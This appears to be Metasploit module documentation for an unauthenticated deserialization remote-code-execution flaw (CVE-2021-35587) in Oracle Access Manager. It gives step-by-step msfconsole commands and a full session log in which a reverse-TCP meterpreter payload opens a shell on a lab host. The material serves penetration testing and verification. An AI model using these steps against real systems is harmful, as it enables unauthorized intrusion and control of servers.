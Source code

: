 ## Vulnerable Application
This module exploits an unauthenticated deserialization of untrusted data vulnerability in the OpenSSO
Agent component of the Oracle Access Manager (OAM) product. The affected product versions are 11.1.2.3.0,
12.2.1.3.0, and 12.2.1.4.0.

## Testing
To install a vulnerable instance of OAM 12.2.1.4.0, you can use Docker image from this
[Oracle Container Registry](https://container-registry.oracle.com/ords/ocr/ba/middleware/oam), and follow this [tutorial](https://docs.oracle.com/en/middleware/idm/access-manager/12.2.1.4/tutorial-oam-docker/).

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/oracle_access_manager_rce_cve_2021_35587`
3. `set TARGET 0`
4. `set RHOST <TARGET_IP_ADDRESS>`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter_reverse_tcp`
6. `set LHOST eth0`
7. `set LPORT 4444`
8. `check`
9. `exploit`

## Scenarios

### Linux Command

```
msf6 > use exploit/multi/http/oracle_access_manager_rce_cve_2021_35587 
[*] Using configured payload cmd/linux/https/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set TARGET 0
TARGET => 0
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set PAYLOAD cmd/linux/https/x64/meterpreter_reverse_tcp 
PAYLOAD => cmd/linux/https/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set RHOSTS 192.168.86.70
RHOSTS => 192.168.86.70
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > show options 

Module options (exploit/multi/http/oracle_access_manager_rce_cve_2021_35587):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.70    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      14100            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /oam/            yes       The base path to the OAM application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/https/x64/meterpreter_reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      true             yes       Attempt to delete the binary after execution
   FETCH_FILELESS    none             yes       Attempt to run payload without touching disk by using anonymous handles, requires Linux ≥3.17 (for Pytho
                                                n variant also Python ≥3.8 (Accepted: none, bash, python3.8+)
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             eth0             yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      JLIwdQAt         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > check
[*] 192.168.86.70:14100 - The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.70:49264) at 2025-04-01 12:34:15 +0100

meterpreter > getuid
Server username: oracle
meterpreter > sysinfo
Computer     : 172.18.0.4
OS           : Oracle 7.9 (Linux 6.5.0-14-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/u01/oracle/user_projects/domains/access_domain
meterpreter >
```

